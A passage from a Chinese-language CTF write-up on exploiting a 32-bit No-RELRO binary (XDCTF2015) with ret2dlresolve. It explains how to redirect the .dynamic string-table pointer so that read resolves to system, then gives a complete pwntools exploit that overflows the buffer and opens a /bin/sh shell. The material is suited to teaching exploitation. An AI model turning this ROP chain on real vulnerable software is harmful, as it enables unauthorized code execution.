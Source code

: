 ```c
    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```
### 题目
checksec   
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
在这种情况下，修改 .dynamic 会简单些。因为我们只需要修改 .dynamic 节中的字符串表的地址为伪造的字符串表的地址，并且相应的位置为目标字符串基本就行了。具体思路如下   

1. 修改 .dynamic 节中字符串表的地址为伪造的地址
2. 在伪造的地址处构造好字符串表，将 read 字符串替换为 system 字符串。
3. 在特定的位置读取 /bin/sh 字符串。
4. 调用 read 函数的 plt 的第二条指令，重新触发 _dl_runtime_resolve 进行函数解析，从而执行 system 函数。

### EXP
```python
from pwn import *
context(arch='i386',log_level='debug')
elf = ELF('norelro_32')
io = process(elf.path)
rop = ROP('norelro_32')

#gdb.attach(io,"b * 0x080484fe")
payload = flat(['a'*0x6c+'bbbb'])
rop.raw(payload)
# modify .dynstr pointer in .dynamic section to a specific location
DT_STRTAB_addr = 0x08049794 + 4
rop.read(0,DT_STRTAB_addr,4) # read - 1 
# construct a fake dynstr section
dynstr_data = elf.get_section_by_name('.dynstr').data()
fake_dynstr_data = dynstr_data.replace(b"read",b"system")
print('dynstr',fake_dynstr_data)
print('dynstr len',len(fake_dynstr_data))
blank_addr = 0x8049890
blank2_addr = 0x8049890+0x100 
bin_sh_str = "/bin/sh\x00" 
rop.read(0,blank_addr,len((fake_dynstr_data))) # read - 2
rop.read(0,blank2_addr,len(bin_sh_str)) # read - 3
read_plt_push_jmp_addr = 0x08048386
rop.raw(read_plt_push_jmp_addr) #push 8;jmp  sub_8048360;
rop.raw('bbbb')
rop.raw(blank2_addr) #/bin/sh
print(rop.dump())

io.recvuntil('Welcome to XDCTF2015~!')
io.send(rop.chain())
io.send(p32(blank_addr))
io.send(fake_dynstr_data)
io.send(bin_sh_str)
io.interactive()

```
